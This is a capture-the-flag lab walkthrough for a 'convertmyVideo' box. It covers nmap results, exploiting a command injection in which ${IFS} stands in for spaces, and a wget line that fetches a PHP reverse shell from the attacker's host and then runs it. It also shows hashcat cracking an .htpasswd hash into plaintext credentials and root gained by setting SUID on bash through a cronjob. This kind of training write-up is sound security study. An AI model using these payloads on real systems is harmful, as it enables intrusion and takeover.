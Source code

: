 # convertmyVideo



## nmap

initial scan results

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel



initial aggressive scan

PORT      STATE    SERVICE      VERSION
22/tcp    open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp    open     http         Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
5061/tcp  filtered sip-tls
10003/tcp filtered documentum_s
28201/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel



## httpenumeration



### command injection



- there is a command injection in the output taken

![image-20200820193425814](convertmyVideo.assets/image-20200820193425814.png)

now we can get command execution lets try to get a shell

- there is a problem with space 

- whenever we type space it breaks the injection 

- to mitigate it we will use ${IFS}

- ```
  ;wget${IFS}10.11.14.54:8000/rev.php
  ```



![image-20200820201307999](convertmyVideo.assets/image-20200820201307999.png)



- file is saved in server now we need to execute the script

![image-20200820201059006](convertmyVideo.assets/image-20200820201059006.png)



- now we need to execute the shell to 

- start a reverse netcat listener on our machine

- ```
  php${IFS}rev.php
  ```



![image-20200820201504418](convertmyVideo.assets/image-20200820201504418.png)



## shell

we got a shell

![image-20200820202238053](convertmyVideo.assets/image-20200820202238053.png)



### files



got the first flag

![image-20200820202924162](convertmyVideo.assets/image-20200820202924162.png)



.htpasswd

![image-20200820203114651](convertmyVideo.assets/image-20200820203114651.png)

- got credentials lets try to decode it
- its a md5 apr encryption



## hashcat



- we will use hashcat
- and rockyou.txt to crack the password
- we select mode 1600

![image-20200820203521758](convertmyVideo.assets/image-20200820203521758.png)



### credentials



![image-20200820203608427](convertmyVideo.assets/image-20200820203608427.png)



username	itsmeadmin

password	 jessie



## post

- lets try to login to the admin panel with these credentials
- we logged in but did not find anything
- used linpeas.sh but nothing 
- now using pspy64s to check for any running cronjobs



![image-20200820205611367](convertmyVideo.assets/image-20200820205611367.png)

- seems like we got a file executed by root 
- seens like a cronjob 
- lets set suid bit on bash



setuid bit on bash

![image-20200820210015290](convertmyVideo.assets/image-20200820210015290.png)



### root



![image-20200820210143925](convertmyVideo.assets/image-20200820210143925.png)



